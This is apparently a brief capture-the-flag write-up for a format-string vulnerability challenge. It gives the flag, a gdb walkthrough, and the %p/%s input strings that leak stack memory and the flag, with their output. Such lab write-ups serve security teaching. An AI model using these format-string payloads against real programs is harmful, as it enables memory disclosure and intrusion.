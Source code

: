 **Flag:** enc0re{f0rm4t_5tr1n6_vuln3r4b1l1ty}

1.  chmod +x format
2.  gdb format
3.  pd main/disas main
4.  set breakpoint b*0x000000000040115c
5.  r
6.  n
7.  you will see that the flag is in the RAX register
8.  to leak out the flag, exit gdb and input %p%p%p%p%p%p >> 0x10x7f03a7a9f8d00x7a667f0x7f03a7a9f8c0(nil)0x7ffd68727140
9.  this is the complete flag but in disintegrated addresess 
10. To leak the string form input %p%p%p%p%p%p%s >> 0x10x7f03a7a9f8d00x7a667f0x7f03a7a9f8c0(nil)0x7ffd68727140enc0re{f0rm4t_5tr1n6_vuln3r4b1l1ty}

